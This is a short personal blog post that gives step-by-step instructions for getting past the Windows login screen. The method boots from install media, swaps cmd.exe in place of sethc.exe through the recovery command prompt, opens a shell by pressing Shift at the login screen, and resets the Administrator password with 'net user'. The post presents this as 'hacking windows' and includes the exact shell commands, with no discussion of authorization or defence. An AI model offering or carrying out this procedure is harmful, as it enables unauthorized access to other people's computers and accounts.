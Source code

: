 ```yaml
---
layout: post
title:  "Bypass Windows Login (Hack Windows)"
date:   2016-05-12 08:35:38 +0530
categories: jekyll update
---
```

hey this is my first post on hacking windows, this was very fascinating to me when i first did it.
All you need in order to hack windows is
1)Windows bootable pendrive or bootable CD
2)Windows 10(recommended) or higher version than the one you wanna hack

step 1)Boot from your bootable pendrive
step 2)Go to Repair Computer option displayed at below left side

step 3)Choose Command prompt
step 4)navigate to the windows drive u wanna hack
lets say in my case D:
step 5)go to D://Windows/System32/

```sh
D:
cd Windows/System32
```

There’s one file named sethc.exe which is responsible to open the dialog box of
stickey at time of windows login screen, what we are going to do is rename
our cmd.exe(command prompt) with sethc.exe.
this is will execute sethc.exe file which is nothing but our command prompt
because of we rename it with sethc.exe

```sh
ren sethc.exe sethc.exe.bak
ren cmd.exe sethc.exe
```


there we go.
Its done now.

Normally open the windows at login screen and press shift key multiple times.
it will open command prompt for you.

step 6)Now time to reset the password of windows user

```sh
net user
```

this command will show all the windows users list.

```sh
net user Administrator *
```

this will prompt you for new password for Administrator.

Done!!
Now you can login to Administrator account with recently changed password by you